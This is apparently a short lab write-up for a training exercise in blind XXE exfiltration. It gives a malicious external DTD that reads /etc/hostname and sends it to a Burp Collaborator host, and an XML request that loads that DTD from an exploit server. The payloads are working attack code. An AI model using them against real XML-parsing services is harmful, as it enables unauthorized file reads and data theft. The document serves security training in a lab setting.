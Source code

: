# Exploiting blind XXE to exfiltrate data using a malicious external DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

---

### step 1

copy bupcollaborator
go to exploit url
eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

![screenshot](images/lab5_expolite.jpg)

### step2

in reapeater
add this url
https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>
1</productId><storeId>1</storeId></stockCheck>
```

send request

now goto burpcollaborator

![screenshot](images/lab5_burpcollaborator.jpg)

